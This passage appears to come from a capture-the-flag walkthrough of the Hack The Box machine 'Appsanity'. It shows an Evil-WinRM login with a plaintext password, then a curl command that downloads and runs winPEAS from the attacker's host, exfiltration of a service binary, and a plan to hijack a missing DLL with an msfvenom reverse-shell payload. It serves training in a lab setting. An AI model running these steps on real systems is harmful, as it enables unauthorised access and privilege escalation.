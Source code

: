 
Using Evil-WinRM, we were able to login to devdoc using the password

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Appsanity/files]
└─$ evil-winrm -i meddigi.htb -u devdoc -p "1g0tTh3R3m3dy\!\!"      
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\devdoc\Documents> 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Downloaded winPEAS[https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS] and ran it


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/Tools]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.71.74 - - [01/Nov/2023 13:37:14] "GET /winPEASx64.exe HTTP/1.1" 200 -
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
*Evil-WinRM* PS C:\Users\devdoc\Desktop> curl http://10.10.14.71/winPEASx64.exe -o winpeas.exe
*Evil-WinRM* PS C:\Users\devdoc\Desktop> ./winpeas.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


The script tells us about **ReportManagement** which runs on **port 100** and is located in **C:\Program Files\ReportManagement**

Download ReportManagement.exe found in the folder and analyse it using IDA Free

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
*Evil-WinRM* PS C:\Program Files\ReportManagement> download ReportManagement.exe
                                        
Info: Downloading C:\Program Files\ReportManagement\ReportManagement.exe to ReportManagement.exe
                                        
Info: Download successful!

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



It tells us about *C:\Program Files\ReportManagement\Libraries* and *externalupload.dll*



Going to *C:\Program Files\ReportManagement\Libraries* , we see *externalupload.dll* doesn't exist.
We can try to create a malicious dll to escalate privilege

### Privilege Escalation
Create a payload using **msfvenom**  and run a reverse shell in metasploit
